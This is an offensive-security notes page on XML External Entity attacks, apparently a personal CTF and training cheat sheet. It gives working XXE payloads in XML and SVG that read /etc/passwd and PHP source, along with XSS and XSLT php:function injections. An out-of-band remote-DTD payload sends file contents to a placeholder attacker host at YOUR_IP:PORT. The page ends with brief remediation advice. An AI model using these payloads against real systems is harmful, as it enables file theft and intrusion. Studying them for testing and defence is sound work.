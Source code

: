 # XML External Entity (XXE)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
[![web_attacks](../../../../_badges/htb/web_attacks.svg)](https://academy.hackthebox.com/course/preview/web-attacks)

<div class="row row-cols-lg-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Arbitrary file access <small>(passwd, id_rsa, etc.)</small>
* Perform a DDoS attack <small>(often patched in modern web servers)</small>
* Perform a [SSRF attack](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md)
* Perform a [XSS attack](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)

There are two kind of XXE

* **In-band**: same channel to attack and fetch results
* **Out of Band/Blind**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the string `Hello, World!`. A vulnerable XML parser will replace the anchor `&poc;` inside the root element with the string.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc "Hello, World!">]>
<root>&poc;</root>
```

⚠️ This is not the only PoC/sign of a possible XXE.

📚 As a reminder, [SVG](https://en.wikipedia.org/wiki/SVG) are XML files too.
</div></div>

<hr class="sep-both">

## XXE XML Payloads

<div class="row row-cols-lg-2"><div>

When using in-band XXE, inject the anchor in a tag that is displayed.

#### Stealing files

We can use the `file://` protocol to read simple files.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>&xxe;</root>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<root>&xxe;</root>
```

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<root>&xxe;</root>
```

Alternatively, we can try to use CDATA, but due to some security protections in most XML parsers, you need to host the payload on your server to be allowed to merge XML parameter entities (`%`).

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```

And expose the following XML at `http://OUR_IP:PORT/xxe.dtd`:

```xml!
<!ENTITY % begin "<![CDATA[">
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % end "]]>">
<!ENTITY xxe "%begin;%file;%end;">
```
</div><div>

#### XSS attack

If the XML is displayed, you can try an XSS attack using CDATA.

```xml!
<?xml version="1.0"?>
<root><![CDATA[<script>console.log('test')</script>]]></root>
```

#### Out of Band XSS

If we cannot see any output, we may first try to see if we can see error messages <small>(missing/invalid tag, reference, etc.)</small> or connect to our server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```

And expose the following XML at `http://OUR_IP:PORT/xxe.dtd` if you can see error messages:

```xml!
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
%error;
```

Or expose the following XML at `http://OUR_IP:PORT/xxe.dtd`.

```xml!
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % oob "<!ENTITY &#x25; payload SYSTEM 'http://YOUR_IP:PORT/?payload=%file;'>">
%oob;
%payload;
```

📚 We could also try DNS exfiltration (`<payload>.example.com`).
</div></div>

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

We can use the `file://` protocol to read simple files. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>

<hr class="sep-both">

## XSLT Transformations

[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML. If the XSLT parser is vulnerable, we may be able to execute some code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
</body>
</html>
```
</div><div>

You may then inject something inside the body:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `PUBLIC` instead of `SYSTEM`?

Tools

* [XXEinjector](https://github.com/enjoiz/XXEinjector) <small>(1.4k ⭐, 2020 🪦)</small>
* [xxexploiter](https://github.com/luisfontes19/xxexploiter) <small>(0.5k ⭐, 2022 🪦)</small>
</div><div>

Remediations

* Disallow external DTDs
* Disallow external entities
* Disallow XML parameters entities
* Disable XInclude
* Disable Self Reference/Entity Loops
</div></div>